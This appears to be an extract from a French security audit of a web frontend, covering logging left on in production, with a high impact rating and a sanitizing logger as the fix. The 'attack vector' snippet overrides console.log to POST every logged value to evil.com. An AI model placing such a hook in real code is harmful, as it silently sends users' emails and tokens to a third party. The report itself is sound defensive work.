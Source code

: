 **Vecteur d'attaque** :
```javascript
// Dans la console du browser, un attaquant peut :
// 1. Voir tous les logs (emails, erreurs, tokens temporaires)
// 2. Overrider console.log pour capturer les données
const originalLog = console.log;
console.log = function(...args) {
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(args)
  });
  originalLog.apply(console, args);
};
```

**Impact** : 🟠 HAUTE
- Fuite d'informations sensibles
- Aide au reconnaissance pour les attaquants
- Exposition de la structure de données

**Solution** :

```typescript
// ✅ src/utils/logger.ts
const isDevelopment = import.meta.env.DEV;
const isProduction = import.meta.env.PROD;

export const logger = {
  debug: (...args: any[]) => {
    if (isDevelopment) {
      console.debug('[DEBUG]', ...args);
    }
  },

  info: (...args: any[]) => {
    if (isDevelopment) {
      console.info('[INFO]', ...args);
    }
  },

  error: (message: string, error?: Error) => {
    if (isDevelopment) {
      console.error('[ERROR]', message, error);
    }

    // En production : envoyer à un service de monitoring (Sentry, etc.)
    if (isProduction) {
      // sendToErrorTracking(message, error);
    }
  },

  // JAMAIS loguer les données sensibles
  sanitize: (data: any) => {
    const sensitive = ['password', 'token', 'apikey', 'secret', 'jwt'];
    const sanitized = { ...data };

    Object.keys(sanitized).forEach(key => {
      if (sensitive.some(s => key.toLowerCase().includes(s))) {
        sanitized[key] = '[REDACTED]';
      }
    });

    return sanitized;
  }
};
```
